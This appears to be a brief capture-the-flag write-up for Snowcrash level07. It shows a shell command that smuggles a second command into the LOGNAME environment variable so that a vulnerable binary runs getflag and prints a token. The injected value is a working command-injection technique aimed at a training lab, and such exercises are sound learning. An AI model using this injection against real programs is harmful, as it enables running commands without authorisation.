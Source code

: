 # Snowcrash07

This time we have a binary that, when inspected makes uses of the env var LOGNAME to build a command
Simply inject code in LOGNAME
```sh
level07:~$ env LOGNAME='test;getflag' ./level07 
test
Check flag.Here is your token : REDACTED
```
Quite ez if i may
